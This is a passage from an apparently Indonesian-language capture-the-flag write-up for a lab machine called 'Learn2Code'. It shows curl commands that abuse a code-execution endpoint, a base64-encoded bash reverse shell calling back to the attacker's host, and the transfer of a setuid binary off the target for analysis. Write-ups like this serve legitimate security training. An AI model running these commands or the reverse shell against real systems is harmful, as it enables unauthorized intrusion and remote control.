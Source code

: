 ```
╰─ curl -sX POST 'http://192.168.56.27/includes/php/runcode.php' -d "action=run_code&code=__import__('os').system('id')" -b "PHPSESSID=n6jrt811hte6ni7hetvj4vh6kp"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
seperti biasa kalo sudah seperti ini saya pasti waktunya untuk memasukkan _reverse shell_ !!
```bash
╭─ via [machines/learn2code]
╰─ echo "/bin/bash -i >& /dev/tcp/192.168.56.1/12345 0>&1" | base64 | cboard
╭─ via [machines/learn2code]
╰─ curl -sX POST 'http://192.168.56.27/includes/php/runcode.php' -d "action=run_code&code=__import__('os').system('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTYuMS8xMjM0NSAwPiYxCg== | base64 -d | bash')" -b "PHPSESSID=n6jrt811hte6ni7hetvj4vh6kp"

```
![image7](https://i.postimg.cc/0QqDXQYH/image.png)

## binary analyzing

kalau sudah masuk biasanya saya mencari versi kernel, jaringan network untuk melihat port apa saja yang sedang _listened_ atau _open_, atau melihat **SUID** binary yang bisa digunakan untuk injeksi dan kebetulan saya tidak kepikiran untuk menyalakan **LinPEAS** karena terlalu fokus dan sangat tertarik.

![image9](https://i.postimg.cc/qRd8RL77/image.png)

terdapat binary **MakeMeLearner** sebagai tersangka pertama. wait-wait-wait ketika saya eksekusi ia membutuh kan argumen, wow. ketika saya test untuk melihat _man help_-nya ternyata ini termasuk binary ELF.
```bash
www-data@Learn2Code:/var/www/html/includes/php$ /usr/bin/MakeMeLearner
/usr/bin/MakeMeLearner
MakeMeLearner: please specify an argument
www-data@Learn2Code:/var/www/html/includes/php$ /usr/bin/MakeMeLearner -h
/usr/bin/MakeMeLearner -h
Change the 'modified' variable value to '0x61626364' to be a learnerTry again, you got 0x00000000
www-data@Learn2Code:/var/www/html/includes/php$ file /usr/bin/MakeMeLearner
file /usr/bin/MakeMeLearner
/usr/bin/MakeMeLearner: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=bb387daabdaf0f68bfa1a29f8b8190c076dd6ad8, for GNU/Linux 3.2.0, not stripped
```
kalau sudah seperti ini, saya harus memindahkan executable ini ke mesin local saya agar bisa saya debugging dan decompile dan melihat bagaimana executable ini berjalan.
```bash
www-data@Learn2Code:/var/www/html/includes/php$ cp /usr/bin/MakeMeLearner /dev/shm/.
</includes/php$ cp /usr/bin/MakeMeLearner /dev/shm/.
www-data@Learn2Code:/var/www/html/includes/php$ python3 -m http.server -d /dev/shm/
<l/includes/php$ python3 -m http.server -d /dev/shm/
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.56.1 - - [15/Oct/2022 16:45:30] "GET /MakeMeLearner HTTP/1.1" 200 -

---local machine---

╭─ via [machines/learn2code]
╰─ wget http://$victim:8000/MakeMeLearner
--2022-10-15 16:44:02--  http://192.168.56.27:8000/MakeMeLearner
Connecting to 192.168.56.27:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16864 (16K) [application/octet-stream]
Saving to: ‘MakeMeLearner’

```